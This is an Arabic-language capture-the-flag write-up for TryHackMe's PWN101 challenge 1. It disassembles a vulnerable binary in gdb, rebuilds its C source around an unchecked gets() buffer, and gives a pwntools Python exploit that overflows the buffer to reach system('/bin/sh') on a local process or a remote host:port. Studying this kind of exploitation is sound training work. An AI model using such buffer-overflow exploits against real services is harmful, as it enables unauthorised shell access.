








 <!DOCTYPE html>
<html dir="rtl" lang="ar">
<head>
<meta charset="utf-8">

# PWN101 (TryHackMe)
## Challenge #1
## write-up : 0xNuLLByte
<br>

### قبل عملية الـ (debugging) من عادتي مشاهده سلوك البرنامج قبل عملية التنقيح ليسهُل علي فهم البرنامج .
>
> 
>
> ### let's fill the buffer with AAAA... :)
>
> 
>
> - اولاََ نلاحظ رساله جديدة ظهرت : 
>> Thanks, Here's a small gift for you <3
>- وايضاََ نلاحظ (Segmentation fault)
>> zsh: segmentation fault  ./pwn101.pwn101
>- وهذا يوضحلنا اننا استطعنا الكتابة او القراءة من الذاكرة
___
## ننتقل الى عملية الـ Debugging :
البرامج + الإضافات المستخدمة :
- [gdb](http://www.gdbtutorial.com/tutorial/what-gdb)
- [gdb-peda](https://github.com/longld/peda)
- [Ghidra](https://ghidra-sre.org/InstallationGuide.html)

____

>- نعرض الدوال:
>
> `gdb ./pwn101.pwn101`
> 
> `gdb-peda$ info functions`
> 
> 
>
> - نلاحظ وجود :
>```asm
>0x00000000000006c0  system@plt    ; system() : دلاله على وجود داله 
>0x00000000000006d0  gets@plt      ; buffer overflow : دلاله على ووجود
>                                   ; char *gets(char *s) :
>                                   ; من غير التأكد من السعه `char *s` وتخزينة الى المؤشر `stdin` تقوم الداله بقرأءة المدخل
> 
>
>
>0x000000000000081a  setup          ; 
>0x000000000000087b  banner         ;
>0x000000000000088e  main           ;
>```
>
> - نعرض الدالة : main
>
>`gdb-peda$ disassemble main`
>
> 
>
>```asm
>   0x000055555540088e <+0>:	push   rbp
>   0x000055555540088f <+1>:	mov    rbp,rsp
>   0x0000555555400892 <+4>:	sub    rsp,0x40
>   0x0000555555400896 <+8>:	mov    DWORD PTR [rbp-0x4],0x539   ; [rbp-0x4] = 1337
>   0x000055555540089d <+15>:	mov    eax,0x0
>   0x00005555554008a2 <+20>:	call   0x55555540081a <setup>
>   0x00005555554008a7 <+25>:	mov    eax,0x0
>   0x00005555554008ac <+30>:	call   0x55555540087b <banner>
>   0x00005555554008b1 <+35>:	lea    rdi,[rip+0x208]        # 0x555555400ac0
>   0x00005555554008b8 <+42>:	call   0x5555554006b0 <puts@plt>
>   0x00005555554008bd <+47>:	lea    rdi,[rip+0x2dc]        # 0x555555400ba0
>   0x00005555554008c4 <+54>:	call   0x5555554006b0 <puts@plt>
>   0x00005555554008c9 <+59>:	lea    rax,[rbp-0x40]               ;  byte حجز مساحه حجمها 64  
>   0x00005555554008cd <+63>:	mov    rdi,rax
>   0x00005555554008d0 <+66>:	mov    eax,0x0
>   0x00005555554008d5 <+71>:	call   0x5555554006d0 <gets@plt>    ; gets() استدعاء لداله الخطره
>   0x00005555554008da <+76>:	cmp    DWORD PTR [rbp-0x4],0x539    ; يساوي 1337 DWORD PTR [rbp-0x4] ماقارنه ما اذا 
>   0x00005555554008e1 <+83>:	jne    0x5555554008f9 <main+107>    ; <main+107> في حال لم يتساوى انتقل الى 
>
>                               ;  __في حال تساوى الشرط__  ;
>   0x00005555554008e3 <+85>:	lea    rdi,[rip+0x2e6]        # 0x555555400bd0
>   0x00005555554008ea <+92>:	call   0x5555554006b0 <puts@plt>
>   0x00005555554008ef <+97>:	mov    edi,0x539
>   0x00005555554008f4 <+102>:	call   0x5555554006f0 <exit@plt>
>
>                               ;   __في حال لم يتساوى الشرط__ ;
>   0x00005555554008f9 <+107>:	lea    rdi,[rip+0x318]        # 0x555555400c18   ; <main+107> هنـا
>   0x0000555555400900 <+114>:	call   0x5555554006b0 <puts@plt>                 ; puts(*rip+0x318) استدعاء دالة
>   0x0000555555400905 <+119>:	lea    rdi,[rip+0x333]        # 0x555555400c3f   ; "/bin/sh"
>   0x000055555540090c <+126>:	call   0x5555554006c0 <system@plt>               ; system(rip+0x318) -> system("/bin/sh")
>   0x0000555555400911 <+131>:	nop
>   0x0000555555400912 <+132>:	leave  
>   0x0000555555400913 <+133>:	ret
> ```

## الاستنتاج :
>
>```asm
>0x0000555555400896 <+8>:	mov    DWORD PTR [rbp-0x4],0x539   ; [rbp-0x4] = 1337
>int someVar = 1337;
>
>0x00005555554008c9 <+59>:	lea    rax,[rbp-0x40]               ;  byte حجز مساحه حجمها 64  
>0x00005555554008cd <+63>:	mov    rdi,rax
>0x00005555554008d0 <+66>:	mov    eax,0x0
>0x00005555554008d5 <+71>:	call   0x5555554006d0 <gets@plt>    ; gets() استدعاء لداله الخطره
>
>char someBUF[64];
>gets(someBUF);
>
>0x00005555554008da <+76>:	cmp    DWORD PTR [rbp-0x4],0x539    ; يساوي 1337 DWORD PTR [rbp-0x4] ماقارنه ما اذا 
>0x00005555554008e1 <+83>:	jne    0x5555554008f9 <main+107>    ; <main+107> في حال لم يتساوى انتقل الى 
>
>                               ;  __في حال تساوى الشرط__  ;
>0x00005555554008e3 <+85>:	lea    rdi,[rip+0x2e6]        # 0x555555400bd0
>0x00005555554008ea <+92>:	call   0x5555554006b0 <puts@plt>
>0x00005555554008ef <+97>:	mov    edi,0x539
>0x00005555554008f4 <+102>:	call   0x5555554006f0 <exit@plt>
>
>                               ;   __في حال لم يتساوى الشرط__ ;
>0x00005555554008f9 <+107>:	lea    rdi,[rip+0x318]        # 0x555555400c18   ; <main+107> هنـا
>0x0000555555400900 <+114>:	call   0x5555554006b0 <puts@plt>                 ; puts(*rip+0x318) استدعاء دالة
>0x0000555555400905 <+119>:	lea    rdi,[rip+0x333]        # 0x555555400c3f   ; "/bin/sh"
>0x000055555540090c <+126>:	call   0x5555554006c0 <system@plt>               ; system(rip+0x318) -> system("/bin/sh")
>
>
>// HEX 0x539 TO DEC 1337
>if(someVar != 1337){
>    puts("Thanks, Here's a small gift for you <3");
>    system("/bin/bash");
>}else{
>    puts("Nah bruh, you lied me :(\nShe did Tomato rice instead of briyani :/");
>    exit(1337);
>}
>```
>
> تقريباََ شكل الكود بعد الاستنتاج بهذه الطريقة:
>
>```c
>int main(){
>
>    int someVar = 1337;
>    char someBUF[64];
>    
>    gets(someBUF);
>
>    if(someVar != 1337)
>    {
>        puts("Thanks, Here's a small gift for you <3");
>        system("/bin/bash");
>    } 
>    else
>    {
>        puts("Nah bruh, you lied me :(\nShe did Tomato rice instead of briyani :/");
>        exit(1337);
>     }
>    
>    return 0;
>}
>```
>نتاكد من خلال ghidra اذا كان الاستنتاج مثل ماتوقعناه او لا .
>
>  

## الاستغلال :

> حالياََ فهمنا الكود وطريقه عمل البرنامج , والفكره بتخصار هو الكتابه فوق قيمه المتغير ليتحقق الشرط ونحصل على : `system("/bin/sh")`
> 
> رسمت رسمه توضح الفكره داخل المكدس
> 
>

## نكتب سكربت للاستغلال :
> ```python
> from pwn import *
>context.log_level = 'error'                                          # ; اخفاء رسائل السجلات  ( disable logs messages )
>
># Payload 
>PAYLOAD = b"A" * (60 + 8)
>
># local exploit
>def local__ex(file: string):
>   p = process(file)                                                 # ; . انشاء عمليه وربطها بموصل لتواصل مع العمليه
>   p.recv()                                                          # ; . استقبال البيانات
>   p.sendline(PAYLOAD)                                               # ; . ارسال بيانات بسطر واحد
>   p.interactive()                                                   # ; 
>
># remote exploit 
>def remote_ex(host_port: string, get_flag: bool):
>   HOST, PORT = host_port.split(":")                                 # ; 
>   p = remote(HOST, int(PORT))                                       # ; انشاء عملية تحكم عن بعد عنطريق : (العنوان و المنفذ)
>   p.recv()                                                          # ;              
>   p.sendline(PAYLOAD)                                               # ; 
>   if get_flag:                                                      # ; 
>     p.recvuntil(b"Thanks, Here's a small gift for you <3\n")        # ; استقبال البينات لحتى وصل الجملة المحدده .
>     p.sendline(b"cat flag.txt")                                     # ; 
>     print("Flag: " + p.recv().decode("UTF-8"))                      # ; 
>   else: p.interactive()                                             # ; 
>
>def main():
>   import sys
>   try:
>      
>      content: string = sys.argv[2]
>      get_flag: bool  = True if "-flag" in sys.argv else False 
>      
>      if sys.argv[1] == "-r": remote_ex(content, get_flag)
>      if sys.argv[1] == "-l": local__ex(content)
>
>   except:
>      print("python exploit.py -l file.out        : for locally  exploit")
>      print("python exploit.py -r HOST:PORT       : for remotely exploit!")
>      print("python exploit.py -r HOST:PORT -flag : for get-flag automatically")
>
>if __name__ == '__main__':
>    main()
>```
>
> نجربه محلياََ :
> 
> 

## example area ( امثلـــة  ):
> ```
> example_area
>├── example.c                     ; مثال تقريبي للبرنامج مع امكانية رؤية المتغيرات الحاصله بعد التغير
>├── example.out                   ; الباينري
>├── Makefile                      ; make build, run, clean
>└── shellcode                     ; python3 -c "print('\x00'*60 + 'A'*8)"
> ```
>
> `$ make clean && make build && make run`
> 
> 


